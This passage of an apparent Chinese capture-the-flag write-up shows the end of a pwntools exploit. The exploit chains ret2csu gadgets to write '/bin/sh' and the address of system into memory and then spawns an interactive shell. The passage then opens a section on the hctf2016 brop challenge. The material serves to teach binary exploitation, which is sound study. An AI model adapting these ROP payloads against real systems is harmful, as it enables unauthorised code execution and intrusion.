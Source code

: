 ```python
    system_addr = libc_addr + elf_file.symbols['system']

    # Write "/bin/sh" to memory using ret2csu
    payload_2 = "a"*0x88
    payload_2 += p64(0x40061a)  # pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15; ret;
    payload_2 += p64(0x0) + p64(0x1) + p64(0x0000000000601020) + p64(0x20) + p64(0x0000000000601FC0) + p64(0)
    payload_2 += p64(0x400600)  # mov rdx,r13; mov rsi,r14; mov di,r15d; call QWORD PTR [r12+rbx*8];
    payload_2 += p64(0x0) * 7 + p64(0x400587)
    send_value(exp_file, payload_2)
    exp_file.sendline("/bin/sh;")

    # Write system to memory using ret2csu
    payload_3 = "a"*0x88
    payload_3 += p64(0x40061a)  # pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15; ret;
    payload_3 += p64(0x0) + p64(0x1) + p64(0x0000000000601020) + p64(0x40) + p64(0x0000000000601Fe0) + p64(0)
    payload_3 += p64(0x400600)  # mov rdx,r13; mov rsi,r14; mov di,r15d; call QWORD PTR [r12+rbx*8];
    payload_3 += p64(0x0) * 7 + p64(0x400587)
    exp_file.sendline(payload_3)
    exp_file.sendline(p64(system_addr))

    # Exec system('/bin/sh;') using ret2csu
    payload_4 = "a"*0x88
    payload_4 += p64(0x40061a)  # pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15; ret;
    payload_4 += p64(0x0) + p64(0x1) + p64(0x00601fe0) + p64(0x0) + p64(0x0) + p64(0x601fc0)
    payload_4 += p64(0x400600)  # mov rdx,r13; mov rsi,r14; mov di,r15d; call QWORD PTR [r12+rbx*8];
    payload_4 += p64(0x0) * 7 + p64(0x400587)
    exp_file.sendline(payload_4)

    print(exp_file.proc.pid)
    exp_file.interactive()


if __name__ == '__main__':
    main()
```

由于在内存空间的不确定性，这里可能要执行多次才会有 `shell`



## 0x22 hctf2016 - brop && brop



### 程序分析

由于这道题没有源码，所以我直接总结一下 `brop` 这个利用技巧。
